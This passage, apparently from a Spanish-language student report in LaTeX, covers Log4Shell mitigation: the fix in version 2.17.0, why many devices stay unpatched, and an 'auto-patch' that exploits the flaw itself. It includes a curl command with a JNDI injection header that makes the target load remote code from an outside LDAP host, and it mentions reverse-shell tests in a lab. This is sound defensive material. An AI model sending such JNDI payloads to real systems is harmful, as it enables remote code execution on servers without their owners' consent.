\documentclass[../main.tex]{subfiles}

\begin{document}

\section{Contramedidas y estado actual}

Como ya se ha comentado en el segundo apartado de la memoria, el problema causante de la vulnerabilidad \it{Log4Shell} ha sido parcheado de manera definitiva desde la versión \it{2.17.0} \cite{lunasec-log4shell-mitigation}.

No obstante, debido a la utilización de esta biblioteca de Java en sistemas tan dispares, la actualización no es algo que sea posible en todos ellos. Por ejemplo, hay routers con servidores web Java que utilizan \it{Log4J}, y salvo que el proveedor de servicio de Internet decida actualizarlos, los usuarios finales no van a hacerlo por su cuenta.

Esto hace que pese a que la vulnerabilidad haya sido corregida, muchos sistemas vayan a seguir en riesgo durante muchos años.

\subsection{Auto-parche para Log4shell}

En uno de los artículos consultados se ha visto que existe un parche \cite{autopatch} que, mediante un ataque explotando la vulnerabilidad \it{Log4Shell}, carga utilizando \it{JNDI} una clase que actualiza la versión de \it{Log4J} a una parcheada.

El 'ataque' como tal consiste en ejecutar lo siguiente:
\begin{codigo}{shell}
curl 192.168.56.200:8080 \
     -H 'X-Api-Version: ${jndi:ldap://patch.log4shell.com:1389/a}'
\end{codigo}

Se han realizado pruebas sobre el servidor vulnerable utilizado para crear el \it{reverse shell} explotando la vulnerabilidad, y los resultados han sido muy satisfactorios.

En primer lugar, tras aplicar 'el parche', el scanner utilizado para detectar la vulnerabilidad ya no ve el servidor web como un objetivo susceptible de ataque:
\begin{figure}[H]
\centering

\includegraphics[width=15.0cm]{imagenes/5-Mitigation/scanner_before-after-patching.png}
\end{figure}

Por otra parte, el ataque para abrir el \it{reverse shell} deja de funcionar, y de hecho tampoco lo hace el ataque utilizado para llevar a cabo la actualización de \it{Log4J}. En la captura que se muestra a continuación puede verse como ciertos \it{lookups} siguen funcionando, pero no los que involucran la carga de clases de manera remota mediante \it{JNDI}:
\begin{figure}[H]
\centering

\includegraphics[width=15.0cm]{imagenes/5-Mitigation/log4j-lookup_before-after-patching.png}
\end{figure}

\end{document}
